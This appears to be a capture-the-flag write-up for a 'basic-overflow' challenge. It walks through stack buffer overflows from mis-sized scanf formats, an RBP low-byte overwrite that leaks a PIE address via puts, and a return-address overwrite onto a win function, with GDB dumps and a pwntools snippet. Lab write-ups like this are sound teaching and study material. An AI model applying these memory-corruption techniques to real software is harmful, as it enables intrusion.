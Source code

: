 # Writeup for "basic-overflow"

## 1. Initial recon

Looking at the c code,
```
	char buf[010];
	printf("What's your name? ");
	scanf("%010s", buf); 
```
We can see that 010 actually only accepts 8 bytes, while %10s accepts 10 bytes + a newline. This gives us a 3 byte overflow (I won't think of this as useful at first, but it's important to consider later). Overflowing with junk data b"A"*10 gives us a segfault.

Using GDB and stepping through the code reveals that the segfault doesn't happen in ret as you'd expect, but interestingly, it happens in the puts call

The overflow is barely enough to modify rbp
` RBP  0x7fffff004141`
with up to 2 bytes of LSB at the end with your arbituary data, and one null byte.

In the puts call, RBP is decremented by 10 and segfaults because there's no data at the overwritten address, being a lot lower than the stack address.

## 2. Looking at the other overflow?

Now, I naturally looked at the scanf 100s overflow, which seems wayy more exploitable 

```
    char s[16];
	char f[32]; // since f is defined after s, f should be before s on the stack
	ff=f; // ff is a pointer to 7f...df80

	/*
	  0x5555555552b8 <main+84>       lea    rax, [rbp - 0x10]     RAX => 0x7fffff003928
 ► 0x5555555552bc <main+88>       mov    rdi, rax              RDI => 0x7fffff003928
   0x5555555552bf <main+91>       call   puts@plt                    <puts@plt>
   leak at somewhat arb addr (value at rbp-0x10 is printed out)
   will segfault if value is not readable
*/
	strcpy(s,"Welcome");
	// 0x7fffffffdef0 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf40 —▸ 0x7fffffffdf80 —▸ 0x7fffffffdf00 ◂— ...
	// puts will print out the addr 0x7f...df10, while rsp and getname is at df90.

	*(void**)f=getname; // f is now 10 length buffer with name?
	(*(void(**)(void))(f))(); // calls getname
	puts(s);
	printf("Sorry didn't quite catch that... ");
	scanf("%100s", s);

```

I attempted to send it exactly 100 bytes of A's, which resulted in ret trying to return to my overflowed value. Good start! I continued by spraying with a cyclic and found the offset to be roughly ~48 bytes (i dont rmb the exact value). However, PIE is on and doing this doesn't give me the win value, but it's important to keep in mind. 

This could also only overflow the final ret, but not the address of getname during the second call. 100 bytes is simply not enough.

```
scanf("%100s", s); // not enough to overflow. 
    /*
    0x7fffffffdef0: 0x61616161      0x61616161      0x61616161      0x61616161
0x7fffffffdf00: 0x61616161      0x61616161      0x61616161      0x61616161
0x7fffffffdf10: 0x61616161      0x61616161      0x61616161      0x61616161
0x7fffffffdf20: 0x61616161      0x61616161      0x61616161      0x61616161
0x7fffffffdf30: 0x61616161      0x61616161      0x61616161      0x61616161
0x7fffffffdf40: 0x61616161      0x61616161      0x61616161      0x61616161
0x7fffffffdf50: 0x00000000      0x00000000      0xf7ffe310      0x00007fff
0x7fffffffdf60: 0x00000000      0x00000000      0xffffe0e8      0x00007fff
0x7fffffffdf70: 0x00000001      0x00000000      0xf7ffd000      0x00007fff
0x7fffffffdf80: 0xffffdf00      0x00007fff      0x555552f3      0x00005555
0x7fffffffdf90: 0x555551ea      0x00005555  <- Addr of getname      0x00000000      0x00000000 to flow to
    */
```

## 3. A breakthrough??
I tried sending multiple payloads to the first one, that being 'A's of different lengths.
I realised that the only one that worked was 'A's just long enough such that the newline cut off the LSB on RBP.
` RBP  0x7fffffffdf00`
This was able to access valid data at RBP-0x10, rather than segfaulting on me. I initally thought this as a way to obtain a PIE leak, which i could use later to ret towards using the second overflow.

So, i wrote this function to capture whatever came out:

```
    # First getname
    r.sendline(b"x"*8)
    # 1 byte overflow, 00 into last byte of rbp

    leak = r.clean()
    print(leak)
```

However I got stuck debugging my function, as trying to process `leak` proved to be very challenging. no matter how i wrote my code, it would always error out. Sometimes nothing was returned, sometimes i get a stack address, but very rarely i obtained an address starting with 0x55. 

Realising that ASLR is probably an important factor, i wrote a new solve script to keep attempting this until i hit an address starting with 0x55.

After a while, i eventually hit an addr starting with 0x55 and realised it coincided perfectly with the address of getname. 

```
 ► 0x5555555552a1 <main+61>    lea    rax, [rbp - 0x30]                 RAX => 0x7fffffffdf90 ◂— 0
   0x5555555552a5 <main+65>    lea    rdx, [rip - 0xc2]                 RDX => 0x5555555551ea (getname) ◂— push rbp
   0x5555555552ac <main+72>    mov    qword ptr [rax], rdx              [0x7fffffffdf90] <= 0x5555555551ea (getname) ◂— push rbp
   0x5555555552af <main+75>    lea    rax, [rbp - 0x30]                 RAX => 0x7fffffffdf90 —▸ 0x5555555551ea (getname) ◂— push rbp
   0x5555555552b3 <main+79>    mov    rax, qword ptr [rax]              RAX, [0x7fffffffdf90] => 0x5555555551ea (getname) ◂— push rbp
```
It is to be noted that the getname address is first loaded into RDX, then moved into the location of rax (0x30 off from rbp). [Ironically, assembly gave me the hint c code couldnt.]

So, if rbp was located exactly 0x20 from 0x7fffffffdf00, then by clearing it to 00 then subtracting 0x10 from it, getname's address would be outputted through puts.

After getname's address is obtained, we simply need to calculate PIE base and calculate win addr.

After this, I tried the original overflow but discovered that it wouldn't work as expected, and it always returned to the address located at the 00 pos of the second scanf instead of the original calculated value. it was foudn that its because it jumps first to the puts call which locates coincidentally exactly where scanf says. So, no offsets are required and simply writing the win addr into the 00 pos of the second scanf should work.

(Thanks tux for not making this part complicated)

## 4. The final payload

Simply send 8 'x's first, repeat until you receive an address starting with 0x55 (must be getname), calculate pie base and win addr, then write that into second scanf and win.
